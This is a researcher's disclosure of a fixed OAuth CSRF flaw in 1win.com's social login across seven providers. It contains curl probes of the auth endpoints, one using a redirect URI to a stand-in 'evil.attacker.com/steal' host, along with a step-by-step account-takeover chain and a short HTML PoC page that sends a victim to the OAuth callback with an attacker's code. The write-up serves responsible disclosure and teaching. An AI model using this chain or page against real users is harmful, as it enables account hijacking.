




# OAuth CSRF — Missing State Validation on 1win.com (7 Social Login Providers)

> **Status:** Vulnerability reported and fixed. Published for educational purposes only.  
> All testing was conducted on accounts owned by the researcher. A placeholder code was used in the Puppeteer PoC to avoid making unauthorized changes to any account.

---

## Summary

1win.com's OAuth social login implementation lacked server-side `state` parameter validation across **all 7 supported providers** (Google, VK, OK.ru, Yandex, Mail.ru, Telegram, Steam).

An attacker could craft a malicious page that initiates an OAuth flow using the **attacker's own authorization code**, then trick a logged-in victim into visiting it. The victim's browser would complete the OAuth callback automatically — **linking the attacker's social account to the victim's 1win account** and enabling full account takeover.

**Severity:** High — CVSS 3.1: 8.1 (`AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N`)

---

## Affected Endpoints

| Endpoint | CAPTCHA | State Validation |
|---|---|---|
| `POST /api/web/v1/auth/google` | ❌ None | ❌ None |
| `POST /api/web/v1/auth/vk` | ❌ None | ❌ None |
| `POST /api/web/v1/auth/ok` | ❌ None | ❌ None |
| `POST /api/web/v1/auth/yandex` | ❌ None | ❌ None |
| `POST /api/web/v1/auth/mailru` | ❌ None | ❌ None |
| `POST /api/web/v1/auth/telegram` | ❌ None | ❌ None |
| `POST /api/web/v1/auth/steam` | ❌ None | ❌ None |

---

## Technical Details

### 1. Missing `state` Parameter Validation

When the SPA initiates an OAuth flow, it generates a `state` parameter **client-side** containing:

```json
{
    "clientId": "51553015",
    "codeVerifier": "fg1RJT5G5c6O5IfXfqwLACNHgwNxYW8XC4kmIv9zLeAJBoh9yvh16ex7nFrd7InNG",
    "domainInitiatorRedirect": "https://1win.com/oauth/vk",
    "formName": "login",
    "pathname": "/",
    "state": "88ijhn"
}
```

Critical issues:
- The internal `state` value is only **6 characters** — weak entropy
- The **PKCE `codeVerifier` is embedded in the `state`** sent to the OAuth provider as a URL parameter — leaks the PKCE secret to the identity provider
- The backend **does not validate the `state` parameter at all** — it accepts any value or no value

### 2. CAPTCHA Bypassed on Social Auth

The CAPTCHA was explicitly disabled for social login routes, confirmed directly via the configuration API:

```
GET /api/MS-AUTH/captcha-isEnabled?route=/auth/login/v2     → {"isEnabled": true}
GET /api/MS-AUTH/captcha-isEnabled?route=/auth/social/login → {"isEnabled": false}
```

Behavioral confirmation:

```bash
# Standard login — CAPTCHA enforced
curl -sX POST https://1wclak.com/api/web/v1/auth/login \
  -H "Content-Type: application/json" \
  -d '{"login":"test","password":"test"}'
# → 403 {"error": "Forbidden", "code": "captcha.required"}

# Social auth (VK) — no CAPTCHA challenge
curl -sX POST https://1wclak.com/api/web/v1/auth/vk \
  -H "Content-Type: application/json" \
  -d '{"code":"test","redirectUri":"https://vv-ftend-1.com/oauth/vk"}'
# → 400 {"error": "Incorrect input data"}  ← no captcha, just an input error
```

All 7 providers confirmed — no CAPTCHA on any of them (HTTP 400/500, no captcha challenge).

### 3. No Server-Side `redirect_uri` Validation

The backend forwarded whatever `redirect_uri` was provided without local validation:

```bash
curl -sX POST https://1wclak.com/api/web/v1/auth/vk \
  -H "Content-Type: application/json" \
  -d '{"code":"test","redirectUri":"https://evil.attacker.com/steal"}'
# → 400 {"error": "Incorrect input data"}
# Same response as with the legitimate redirect_uri — not validated server-side
```

### 4. OAuth Linking State Generated Without CSRF Protection

```bash
curl -sX POST https://1wclak.com/api/AUTH/profile-new \
  -H "Content-Type: application/json" \
  -d '{"social":"vk","code":"test"}'
# → 200 {"state": "g6dfpe"}
```

The endpoint generates a fresh OAuth linking `state` without any anti-CSRF token, confirming the entire OAuth flow lacks CSRF protection end-to-end.

---

## Proof of Concept

### Screenshot 1 — API Comparison: Login vs Social Auth


Shows:
- `POST /auth/login` → **403** `captcha.required` — blocked as expected
- `POST /auth/vk` → **400** `Incorrect input data` — no captcha challenge
- `captcha-isEnabled?route=/auth/social/login` → `{"isEnabled": false}`
- `POST /AUTH/profile-new` → **200** `{"state":"..."}` — no CSRF token
- `POST /auth/vk` with `redirectUri=https://evil.attacker.com/steal` → same 400 as legitimate URI — not validated

### Screenshot 2 — All 7 Providers: No CAPTCHA + Configuration Proof



Shows:
- Loop over all 7 providers — all return 400/500 with no captcha challenge
- `curl -v` confirms login returns HTTP 403 vs VK auth returning HTTP 400
- Configuration API confirms: login = `true`, social/login = `false`

### Screenshot 3 — Puppeteer Network Capture: Auto-Trigger



Puppeteer navigated to:
```
https://1wclak.com/oauth/vk?code=PoC_ATTACKER_CODE_12345&state=eyJ...
```

The SPA automatically sent `POST /api/web/v1/auth/vk` — **no user interaction required beyond visiting the URL.** The JavaScript parsed `?code=` from the URL and submitted it directly.

> A placeholder code was used intentionally to avoid making unauthorized changes to any account. With a real VK authorization code, this would link the attacker's VK account to the victim's session.

---

## Full Attack Chain

```
1. Attacker creates a VK account and initiates OAuth with 1win:
   oauth.vk.ru/authorize?client_id=51553015&redirect_uri=https://vv-ftend-1.com/oauth/vk

2. Attacker authorizes on VK, intercepts the redirect before the code is exchanged

3. Attacker crafts a malicious URL:
   https://1win.com/oauth/vk?code=REAL_VK_CODE&state=base64(...)

4. Victim (logged into 1win) visits the link — e.g. via phishing

5. SPA auto-exchanges the code:
   POST /api/web/v1/auth/vk {"code": "REAL_VK_CODE", ...}
   → No CAPTCHA, no state validation, no confirmation dialog

6. Attacker's VK account is now linked to victim's 1win account

7. Attacker logs in via "Login with VK" → full Account Takeover
```

### Why This Works

| Condition | Status |
|---|---|
| No CAPTCHA on social auth | ❌ explicitly disabled |
| `state` parameter validated server-side | ❌ accepts any value |
| `redirect_uri` validated server-side | ❌ forwarded as-is |
| SPA auto-triggers exchange on page load | ✅ confirmed via Puppeteer |
| Re-authentication required to link social account | ❌ none |
| Anti-CSRF token on `profile-new` | ❌ none |

---

## Simple PoC Page

```html
<!DOCTYPE html>
<html>
<body>
<script>
  // Redirect victim to 1win's OAuth callback with attacker's code.
  // The SPA auto-exchanges it with no user interaction required.
  window.location = 'https://1win.com/oauth/vk?code=ATTACKER_AUTH_CODE&state=crafted';
</script>
</body>
</html>
```

---

## Recommendations

1. **Implement server-side `state` validation** — generate a cryptographically random state server-side, store it in the user's session, verify it on callback
2. **Remove `codeVerifier` from the `state` parameter** — store the PKCE verifier server-side only
3. **Validate `redirect_uri` server-side** — reject any URI not matching a pre-registered whitelist
4. **Enable CAPTCHA on social auth endpoints** — set `isEnabled: true` for `/auth/social/login` and `/auth/oauth`
5. **Require re-authentication for social account linking** — prompt for password confirmation before linking a new social account

---

## Timeline

| Date | Event |
|---|---|
| April 2–3, 2026 | Vulnerability discovered and tested |
| April 4, 2026 | Initial report submitted to 1win via HackerOne |
| April 5, 2026 | Program requested a working PoC |
| April 5, 2026 | Full PoC submitted with Puppeteer capture + curl evidence |
| — | Report marked as duplicate (another researcher submitted first) |
| — | Vulnerability fixed by 1win |

---

## Disclosure

- Testing performed on accounts owned by the researcher only
- No third-party accounts were accessed
- Rate kept within program limits (< 5 req/s, < 5 concurrent)
- Testing conducted on the official mirror `1wclak.com` due to geo-restrictions from France — same backend as `1win.com`
- Published after fix confirmation

---

## References

- [OAuth 2.0 — State Parameter (RFC 6749 §10.12)](https://datatracker.ietf.org/doc/html/rfc6749#section-10.12)
- [PKCE for OAuth Public Clients (RFC 7636)](https://datatracker.ietf.org/doc/html/rfc7636)
- [OWASP — Cross-Site Request Forgery](https://owasp.org/www-community/attacks/csrf)

---


Two days after submitting the full PoC, the 1win security team closed the report as a duplicate of report #3328634 — titled "Critical OAuth Flow Flaw: One-Click Session Hijack and Account Fund Compromise" — which had already been triaged.
This confirms the vulnerability was real and valid. Another researcher got there a few days earlier — that's bug bounty. The analysis, methodology, and depth of this report stand on their own.
